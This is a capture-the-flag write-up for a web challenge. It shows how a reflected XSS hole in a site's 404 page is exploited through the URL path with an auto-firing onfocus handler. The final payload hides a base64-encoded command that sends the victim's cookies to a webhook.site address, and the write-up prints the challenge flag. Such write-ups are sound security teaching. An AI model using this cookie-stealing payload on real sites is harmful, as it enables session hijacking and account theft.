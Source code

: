 # UREL-EX2S

> Have you heard the exciting news? The little princess has just created a website for fellow GT fans to connect and chat! Before the official launch, we want to ensure a secure experience for everyone. Could you help us by testing it for potential XSS vulnerabilities? We want to make sure her fans don't encounter any issues with data security, especially from those pesky Android robots.

## About the Challenge
We were given a source code (You can download the source code [here](dist.zip)) and the website. The source code is actually quite simple; there's no crazy controller, complicated structure, etc.

![preview](images/preview.png)

## How to Solve?
There's an interesting thing in the 404 page, when I input a random string in the URL (Ex: http://example/ddd). Our input reflected in the source code

![404](images/404.png)

I can close the tag by adding a quote in the url, and then I tried to use `<` and `>` to create a new HTML tag but the website encoded our input 

![quote](images/quote.png)

Because of the bot doesn't interact with the inputted url, We need to find a way to make the XSS payload executed without user interaction and I found this [tweet](https://twitter.com/RenwaX23/status/1122606900154130432)

Yayyy, so I tried to create a XSS payload again based on the tweet above, and there's an alert xD

![alert](images/alert.png)

```
http://app:8080/ddd'onfocus='alert(12)'name='jj#jj
```

More or less, the final payload looks like this
```
http://app:8080/ddd'style='x'onfocus='eval(atob(this.id))'id='d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzU1YWY3MzI2LWI5OTYtNGNjYS05OWM1LWM3ZmMzYzNhN2Y4My8/Jytkb2N1bWVudC5jb29raWUp'name='jj#jj
```

Input the payload to the bot form, and then check webhook.site to get the flag

![flag](images/flag.png)

```
STS23{xss_in_url_path!you_must_be_kidding_right?}
```
